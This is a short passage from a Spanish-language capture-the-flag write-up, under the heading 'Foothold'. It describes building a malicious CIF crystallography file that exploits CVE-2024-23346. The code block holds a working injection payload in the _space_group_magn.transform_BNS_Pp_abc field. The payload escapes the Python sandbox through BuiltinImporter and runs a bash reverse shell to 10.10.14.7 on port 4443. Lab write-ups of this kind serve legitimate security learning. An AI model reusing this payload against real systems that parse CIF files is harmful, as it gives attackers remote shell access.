 ![Ejemplo de CIF](/assets/images/chemistry/05-cif-example.png)

---

## Foothold

Siguiendo la pista de la vulnerabilidad **CVE-2024-23346**, preparé un archivo `example.cif` malicioso.  
En él modifiqué el campo `_space_group_magn.transform_BNS_Pp_abc` para que ejecutara una **reverse shell** contra mi máquina atacante en el puerto **4443**.

```cif
_space_group_magn.transform_BNS_Pp_abc 
'a,b,[d for d in ().__class__.__mro__[1].__subclasses__() 
if d.__name__ == "BuiltinImporter"][0].load_module("os").system("/bin/bash -c 'sh -i >& /dev/tcp/10.10.14.7/4443 0>&1'")'
```
